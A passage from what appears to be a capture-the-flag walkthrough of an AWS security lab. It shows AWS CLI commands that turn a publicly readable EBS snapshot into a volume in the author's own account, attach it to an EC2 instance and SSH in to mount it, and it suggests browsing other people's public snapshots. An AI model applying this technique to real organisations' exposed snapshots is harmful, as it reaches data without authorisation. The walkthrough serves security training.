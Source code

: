 ```
                }
            ],
            "StorageTier": "standard"
        }
    ]
}

```
For fun, run that command without the owner-id and notice all the snapshots that are publicy readable. By default snapshots are private, and you can transfer them between accounts securely by specifiying the account ID of the other account, but a number of people just make them public and forget about them it seems.

Now that you know the snapshot ID, we're going to want to mount it. we'll need to do this in our own AWS account.

First, create a volume using the snapshot: 

Note:  Configure IAM user with permissions of "AdministratorAccess" under (IAM > Users > gteksds3hacker > Add permissions > Attach policies directly > Permissions policies)
```
└─$ aws --profile gteksd ec2 create-volume --availability-zone us-west-2b --region us-west-2  --snapshot-id  snap-0b49342abd1bdcb89
```
```
{
    "AvailabilityZone": "us-west-2b",
    "CreateTime": "2024-02-15T07:51:19+00:00",
    "Encrypted": false,
    "Size": 8,
    "SnapshotId": "snap-0b49342abd1bdcb89",
    "State": "creating",
    "VolumeId": "vol-070719fc38dfc071e",
    "Iops": 100,
    "Tags": [],
    "VolumeType": "gp2",
    "MultiAttachEnabled": false
}
```
Now in the console we can create an EC2 (I prefer kali, but any linux will do) in the us-west-2 region and in the storage options, choose the volume you just created.

```
└─$ chmod 400 gteksd-flaws-key.pem
```

SSH in with something like:
```
└─$ ssh ubuntu@54.189.161.23 -i gteksd-flaws-key.pem
```
```
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 6.2.0-1017-aws x86_64)
```

We'll need to mount this extra volume by running: 
